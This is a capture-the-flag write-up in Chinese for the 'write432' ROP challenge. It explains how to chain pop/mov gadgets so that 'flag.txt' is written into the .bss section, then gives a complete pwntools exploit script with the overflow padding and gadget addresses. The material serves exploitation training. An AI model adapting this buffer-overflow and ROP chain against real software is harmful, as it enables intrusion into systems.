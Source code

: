 # write432

> 我们需要执行print_file("flag.txt")，32位要用栈传递参数。

1. 把bss的首地址弹到%edi，把'flag'弹到%ebp，然后把%ebp（'flag'）传递给%edi所指向的地址，即bss的首地址。

2. 同理，把bss+4的地址弹到%edi，把'.txt'弹到%ebp，然后把%ebp（'.txt'）传递给%edi所指向的地址，即bss+4。

3. 同理，把bss+8的地址弹到%edi，把'\0'弹到%ebp，然后把%ebp（'\0'）传递给%edi所指向的地址，即bss+8。

4. 最后，调用print_file()，参数地址设置在bss段首地址。

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./write432')
e = pwn.ELF('./write432')
libwrite432 = pwn.ELF('./libwrite432.so')

print_file_plt = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()                          # bss段的首地址
pop_edi_ebp_addr = pwn.p32(0x080485aa)        # pop edi ; pop ebp ; ret
mov_ebp__edi__addr = pwn.p32(0x08048543)      # mov %ebp (%edi) ; ret 

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

# pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + pop_edi_ebp_addr + pwn.p32(bss_addr) + b'flag' + mov_ebp__edi__addr  
#                                           #  pop bss_addr to edi  | pop 'flag' to ebp  | mov 'flag' to (%edi) -> bss_addr
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 4) + b'.txt' + mov_ebp__edi__addr
#                           #  pop bss+4 to edi  | pop '.txt' to ebp  | mov '.txt' to (%edi) -> bss+4
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 8) + pwn.p32(0) + mov_ebp__edi__addr
#                           #  pop bss+8 to edi  | pop '\0' to ebp  | mov '\0' to (%edi) -> bss+8
payload += print_file_plt + b'RRRR' + pwn.p32(bss_addr)                                                 
#                                #  bss_addr = 'flag.txt\0'
p.sendlineafter(b'> ', payload)
p.recv()
```